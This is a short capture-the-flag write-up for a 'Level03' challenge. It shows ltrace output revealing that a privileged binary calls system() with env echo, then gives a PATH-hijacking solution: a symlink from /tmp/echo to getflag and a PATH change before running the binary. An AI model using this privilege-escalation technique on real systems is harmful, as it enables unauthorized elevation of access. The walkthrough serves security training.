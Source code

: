# Level03

## Initial Check

When logged in as the Level03 user, we find a file named `level03` in the directory. First, we examine this file using the `ltrace` command.

```bash
ltrace ./level03
__libc_start_main(0x080484a4, 1, 0xbffff854, 0x08048510, 0x08048580 <unfinished ...>
getegid()                                      = 2003
geteuid()                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me")        <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed>                           = 0
+++ exited (status 0) +++
```

## Analysis

1. When executed, the program runs the command `/usr/bin/env echo Exploit me` using the `system()` function
2. This command will use the first `echo` command found in the PATH variable
3. We can manipulate the PATH variable to execute our desired command

## Solution Steps

1. First, we create a fake `echo` command in the `/tmp` directory:
```bash
ln -s /bin/getflag /tmp/echo
```

2. We update the PATH variable to include the `/tmp` directory:
```bash
export PATH=/tmp:$PATH
```

3. We run the program:
```bash
./level03
```

## Explanation

In this level, we exploit a privilege escalation vulnerability by manipulating the PATH variable. When the program executes the `echo` command, it checks the directories specified in the PATH variable sequentially. By adding the `/tmp` directory to the beginning of PATH, we make the program execute our fake `echo` command (which is actually a symbolic link to the `getflag` command).
